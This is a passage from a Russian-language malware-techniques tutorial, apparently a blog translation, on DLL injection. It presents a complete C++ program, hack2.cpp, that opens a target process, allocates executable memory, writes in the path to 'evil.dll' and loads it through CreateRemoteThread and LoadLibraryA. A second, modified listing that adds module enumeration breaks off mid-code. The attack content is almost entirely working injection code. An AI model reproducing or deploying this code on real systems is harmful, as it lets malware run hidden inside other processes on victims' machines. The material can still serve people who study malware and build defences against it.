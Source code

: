 Как можно заметить, всё сработало идеально!     

### практический пример 2. инъекция DLL

Предположим, у нас есть вредоносное ПО с логикой [классической DLL-инъекции](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) `hack2.cpp`:    

```cpp
#include <iostream>
#include <windows.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char *argv[]) {
  // inject a DLL into remote process
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));  
  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  CloseHandle(ph);
  return 0;
}
```

Затем мы немного изменим этот код: добавим вызов API `EnumerateLoadedModules` с предыдущей функцией обратного вызова:

```cpp
/*
hack2.cpp
DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <iostream>
#include <windows.h>
#include <dbghelp.h>

#pragma comment (lib, "dbghelp.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// callback function
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
    // print the module name.
    printf("%s\n", ModuleName);
    return TRUE;
}

int main(int argc, char *argv[]) {
  // inject a DLL into remote process

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
```